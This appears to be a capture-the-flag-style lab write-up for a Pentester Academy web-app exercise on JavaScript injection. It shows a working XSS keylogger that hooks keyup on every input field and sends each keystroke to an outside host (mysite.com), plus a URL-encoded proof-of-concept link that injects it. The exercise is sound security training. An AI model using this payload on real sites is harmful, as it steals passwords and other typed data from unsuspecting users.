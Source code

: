 ## Task 7 <small>[[Try Now]](http://pentesteracademylab.appspot.com/lab/webapp/jfp/7)</small>

Objectives:

1. Create a KeyLogger which posts Keystrokes live to an attacker server

So in the previous task you have learnt about intercepting the click invent. In this case we are supposed to capture the keyboard events and post it on the attackers server.

The user will only enter in the input fields, so adding listeners for entire DOM is not a good approach. In this case, we will find all input and attach the event listener on it.

```js
document.querySelectorAll("input").forEach((input) => {
  input.addEventListener("keyup", (e) => {
    new Image().src = "http://mysite.com?input=" + e.target.name + "&key=" + e.key;
  });
});
```

I am using `e.target.name` to get the name of input where keyup event is happening, `.key` will contain the character being pressed by the user (or you can use `e.keyCode` to get the ASCII code of the key). This time I have not used _preventDefault()_, because I didn't want to block the default behavior of the event.

Also you have seen I am using `new Image().src` to perform GET request. This is because some sandboxed browsers might block so many ajax requests

**Note** The keyup event will be trigger whenever victim will release the key after pressing

For POC, [Click Here](http://pentesteracademylab.appspot.com/lab/webapp/jfp/7?url=%3Cscript%3Edocument.querySelectorAll%28%22input%22%29.forEach%28%28input%29%20%3D%3E%20%7B%0A%20%20input.addEventListener%28%22keyup%22%2C%20%28e%29%20%3D%3E%20%7B%0A%20%20%20%20new%20Image%28%29.src%20%3D%20%22http%3A%2F%2Fmysite.com%3Finput%3D%22%20%2B%20e.target.name%20%2B%20%22%26key%3D%22%20%2B%20e.key%3B%0A%20%20%7D%29%3B%0A%7D%29%3B%3C%2Fscript%3E)

**More Resources**

1. [`keyup` vs `keydown` vs `keypress`](https://stackoverflow.com/questions/3396754/onkeypress-vs-onkeyup-and-onkeydown)
